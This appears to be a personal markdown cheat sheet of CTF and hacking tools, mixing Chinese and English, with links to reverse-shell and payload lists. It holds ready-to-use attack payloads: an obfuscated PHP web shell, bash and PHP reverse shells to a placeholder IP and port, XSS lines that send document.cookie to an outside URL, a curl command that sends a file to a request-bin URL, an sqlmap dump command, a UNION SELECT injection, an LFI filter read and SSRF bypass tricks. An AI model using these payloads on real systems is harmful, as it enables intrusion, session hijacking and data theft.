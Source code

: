 # Tools

## CTF-Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)
* [Hack Tricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)
* [Command Injection](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89)

### Web Shell
* https://www.webshell.cc/4422.html

### Rev Shell
* [Reverse Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub List Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## 生活駭客

* [Word 放 Code](http://www.planetb.ca/projects/syntaxHighlighter)
* [Android 螢幕投影](https://www.google.com/search?q=apowermirror&oq=apowermirror&aqs=chrome..69i57j0l7.5587j0j7&sourceid=chrome&ie=UTF-8)
* [Bash Command Search](https://ss64.com/)
* [7z-CLI-用法](https://www.cnblogs.com/sparkdev/p/5598062.html)
    ```bash
    7z.exe a <target> <source: 只能用相對路徑>
    ```
* [PCHunter Tool](https://www.bleepingcomputer.com/download/pc-hunter/)
    * Windows系統訊息查看，輔助殺毒文件
* Python HTTP Server
    ```python
    python -m http.server 8080
    ```
* curl 配 request-bin 傳檔
    ```bash
    (echo -n '{"payload": "'; <file>; echo '"}') | curl -H "Content-Type: application/json" -d @- <requests-bin url>
    ```

## Hacking Trick

### MD5 Collision
* somd5.com
* cmd5.com

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)
* [Patch My PC](https://patchmypc.com/home-updater)

## Shodan
![](https://i.imgur.com/qBAtBQB.png)

## Reverse Shell Upload File

* https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet


## SQLMAP

### download source

```bash
git clone https://github.com/sqlmapproject/sqlmap
```

### 起手式

```python
python sqlmap.py -o --random-a -u "url" --tamper base64encode -D <DB> -T <TABLE> --dump
```

### 各種參數

- https://xz.aliyun.com/t/3010

```
--dbs
--schema
--batch
-D
-T
--data="<post 參數>"
--random-agent
--tamper base64encode
-technique=U,B --union-cols=number --dbms-mysql
```
### app.any.run

* https://app.any.run/

### 手打

```
union select 1,2,group_concat(schema_name),4 from information_schema.schemata#
```

## PHP

### reverse shell

#### linux
```php
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/<ip>/<port> 0>&1'");
?>
```

```php
php -r '$sock=fsockopen(<ip>,<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### LFI

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

### SSRF繞過
- `127.0.0.0/8`
- redirect
- `http://@127.0.0.1`

```
gethostbyname('127.0.0.1') == '127.0.0.1'
gethostbyname('localhost') == '127.0.0.1'
gethostbyname('localtest.me') == '127.0.0.1'
gethostbyname('@127.0.0.1') == '@127.0.0.1'
```

## XSS

```html
<script>var i=new Image;i.src="<url>/?"+document.cookie;</script>
<svg/onload="document.location='<url>/?'+document.cookie">
```